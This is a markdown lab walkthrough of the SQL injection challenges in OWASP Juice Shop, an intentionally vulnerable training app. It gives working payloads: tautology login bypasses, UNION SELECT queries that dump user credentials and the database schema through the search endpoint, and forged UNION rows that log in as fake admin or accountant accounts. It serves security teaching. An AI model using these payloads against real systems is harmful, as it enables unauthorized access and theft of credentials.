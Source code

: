 # SQL Injection

This web application is vulnerable to SQL injection attacks specifically reshaping the SQL queries using the following techniques:
* Tautology based injection
* UNION select injection

## SQL injection challenges in OWASP juice-shop web app

|Name   |Description   |Difficulty   |
|---|---|---|
|Login Admin   |Log in with the administrator's user account   |⭐⭐   |
|Login Bender   |Log in with Bender's user account   |⭐⭐⭐   |
|Login Jim   |Log in with Jim's user account   |⭐⭐⭐   |
|Login Chris   |Log in with Chris' erased user account   |⭐⭐⭐   |
|Christmas Special   |Order the Christmas special offer of 2014   |⭐⭐⭐   |
|Database Schema   |Exfiltrate the entire DB schema definition via SQL Injection   |⭐⭐⭐   |
|User Credentials   |Retrieve a list of all user credentials   |⭐⭐⭐⭐   |
|Ephemeral Accountant   |Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user   |⭐⭐⭐⭐   |
|   |   |   |



Before a hacker can  start exploiting an insecure application, s/he must figure out how the application handles **bad** input first.

The best and original way of testing is with the single quote technique. Using the tick technique, two things should happen:

1. The input is sanitized or cleaned and returns a nice error message.

1. There is no sanitization we get something like below or something blatant or nothing.

## Tick Technique

First enter just an apostrophe in the Email input field. What errors do we get? Then try putting a tick at end of an existing user email like below.

![end-tick](object_Object.png)

The error response is crucial in determining the attack.

What will the attacker see on form page by inputting a single quote? It depends on how the application handles errors in the database. In this case, something nondescript. But what is remarkable is that there are no errors like, "**invalid email address and password**". But... we are seeing SQLite errors. Now the hacker also knows that the input is not being sanitized. And if there is no sanization, there's potential exploitation.

![inspector errors](descriptive_errors.png)

1. On the juice-shop app login page, type
   ```
   ' or true;
   ```
    semicolon is used to end a sql statement
   ```
   ' or true -- lkjlsdjlfkjsfsdlsjdlfjs
   ```
   ```
    dkfdk' or true -- blahblah
   ```

1. go to code [login code](https://github.com/bkimminich/juice-shop/blob/master/routes/login.js)

    We expose the code above and the backend sqlite on the web interface.

1. show juiceshop.sqlite

1. By the time the web app sends the query to sqlite, it looks like this.
    ```
    SELECT * FROM Users WHERE email='dkfdk' or true -- blahblah AND password='somehashedpassword'
    ```

    Due to the inclusion of a comment delimiter in the email field the password portion of the query will be ignored.

1. in fact, you can input this with any emails, like:
    ```
    support@juice-sh.op'; -- active
    chris.pike@juice-sh.op'; -- inactive
    ```
**Make everything else irrelevant following the semicolon as it closes the SQL statement**

## UNION based
### **List all products (whether active or not)**
    ')); or ')) --
This includes all products and **')); or ')) --** made other qualifications irrelevant.

### **List all users**
```
anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--

http://localhost:3000/rest/products/search?q=anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--
```
the nonsensical text after __q=__ is a technique to make the api search for that nonexistent product. but the sql code proceeds with the payload.

### **Voila the schema**
```
http://localhost:3000/rest/products/search?q=sldjfwo')) UNION SELECT sql,2,3,4,5,6,7,8,9  FROM sqlite_master--

```

### **ephemeral accounts**

when you register a new account, from the inspector we know that the fields (or keys) are used.

![columns used](upon_registration.png)


start with
```
' union select 1;
```
It is universal to return from this temp table the 1 record with a single field that has value 1.
From the image above, we see that we need at least 10 columns. Try:

```
' union select 1,1,1,1,1,1,1,1,1,1;
```

It needs exactly 12 columns. We see now that we do not get any SQL errors, but we get a new prompt page.

![2fa auth](2fa_required.png)

We need to experiment a little bit to find out where this  totpSecret should be. But looking at the schema, you'll note that totpSecret is 5th from the last. Try:


```
' union select 1,1,1,1,1,1,1,'' as 'totpSecret',1,1,1,1;
```

Obviously, we can log in with just the totpSecret filled in for this application. Let's try adding an email.

```
' union select * from (select 1,1,'nem@akdm.nt' as 'email',1,1,1,1,'' as 'totpSecret',1,1,1,1);
```
or even add a role:
```
' union select 1,1,1,1,'admin' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
Get points by inserting email of fake accountant:
```
' union select 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
How does it look when sent to database?
```
SELECT * FROM users WHERE email = '' UNION SELECT * FROM (SELECT 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1)
```

## sqlite_master

The SQLite database holds the database schema in the table sqlite_master.
Table definition

The table definition is as follows:

    Type : Type is Index or Table.
    name : Index or table name
    tbl_name : Name of the table
    rootpage : rootpage, internal to SQLite
    sql : The SQL statement, which would create this table.

## API endpoint

![login sql](sql_login.png)

![search sql](sql_search.png)

* [SQL code used in search](https://github.com/bkimminich/juice-shop/blob/master/routes/search.js)


## How to avoid sql injection

1. [protection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)